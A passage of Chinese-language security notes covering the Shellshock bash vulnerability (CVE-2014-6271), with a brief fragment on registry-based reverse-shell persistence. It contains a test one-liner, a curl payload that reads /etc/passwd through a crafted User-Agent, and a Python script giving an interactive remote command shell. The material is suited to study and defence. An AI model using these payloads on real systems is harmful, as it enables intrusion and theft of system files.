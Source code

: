 通过修改注册表，当用户登录系统后自动运行程序，从而可以随时向服务器反射一个shell（PS: 还没有实际运行过)。

# <a name='17'>[案例: CVE-2014-6271(ShellShock)](#17)</a>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:dart:[回到目录](#toc)

`CVE-2014-6271`是一个bash远程命令执行漏洞,原因是`env`命令在定义变量后还可以继续执行后续的其它命令,测试方法:

```
$ env x='() { :;}; echo vulnerable' bash -c 'echo hello'
```

如果会输出`vulnerable`,则说明存在这个漏洞，进而可以被用作攻击:

```
$ curl -A "() { foo;};echo;/bin/cat /etc/passwd" http://192.168.0.1/poc.cgi
```

脚本化，构造web请求并修改`User-Agent`:

```python
#!/usr/bin/python

import sys, urllib2

if len(sys.argv) != 2:
    print "Usage: "+sys.argv[0]+" <URL>"
    sys.exit(0)

URL=sys.argv[1]
print "[+] Attempting Shell_Shock - Make sure to type full path"

while True:
    command=raw_input("~$ ")
    opener=urllib2.build_opener()
    opener.addheaders=[('User-agent', '() { foo;}; echo Content-Type: text/plain ; echo  /bin/bash -c "' +
                        command + '"')]
    try:
        response=opener.open(URL)
        for line in response.readlines():
            print line.strip()
    except Exception as e:
        print e
```

# <a name='18'>[案例: CVE-2012-1823](#18)</a>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:dart:[回到目录](#toc)
